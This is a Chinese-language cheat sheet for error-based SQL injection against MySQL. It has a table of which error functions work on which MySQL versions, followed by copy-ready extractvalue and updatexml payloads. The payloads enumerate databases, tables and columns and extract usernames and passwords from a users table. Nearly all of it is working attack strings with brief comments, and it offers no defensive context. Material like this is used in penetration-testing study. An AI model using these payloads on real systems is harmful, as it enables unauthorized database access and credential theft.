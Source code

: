 ### 报错注入
数据库报错注入版本限制:

|报错函数|数据库版本(5.0.96、5.1.60、5.5.29、5.7.26、8.0.12)|
|:----:|:----:|
|extractvalue|5.1.60、5.5.29、5.7.26、8.0.12|
|updatexml|5.1.60、5.5.29、5.7.26、8.0.12|
|floor|5.0.96、5.1.60、5.5.29、5.7.26|
|exp|5.5.29|
|geometrycollection|5.1.60、5.5.29|
|linestring|5.1.60、5.5.29|
|polygon|5.1.60、5.5.29|
|multipoint|5.1.60、5.5.29|
|multipolygon|5.1.60、5.5.29|
|multilinestring|5.1.60、5.5.29|

#### extractvalue
```sql
# 当前数据库
and extractvalue(1,concat(0x7e,(select database()),0x7e)) --+

# 爆出一个数据库, 需要注意显示长度存在限制, 太长的话不会显示全
and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e)) --+

# 从当前数据库里爆出一个表名
and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+

# 从当前数据库里的 users 表里爆出一个字段名来 
and extractvalue(1,concat(0x7e,( select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1 ),0x7e)) --+

# 从 users 表里对应的列名中爆出一个数据来
and extractvalue(1,concat(0x7e,( select concat(id,0x7e,username,0x7e,password) from users limit 0,1),0x7e)) --+
```

#### updatexml
```sql
# 当前版本
and updatexml(1,concat(0x7e,(select version()),0x7e),3) --+

# 爆出一个数据库, 需要注意显示长度存在限制, 太长的话不会显示全
and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),3) --+	 

# 从当前数据库里爆出一个表名
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),3) --+

# 从当前数据库里的 users 表里爆出一个字段名来 
and updatexml(1,concat(0x7e,( select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1 ),0x7e),3) --+

# 从 users 表里对应的列名中爆出一个数据来
```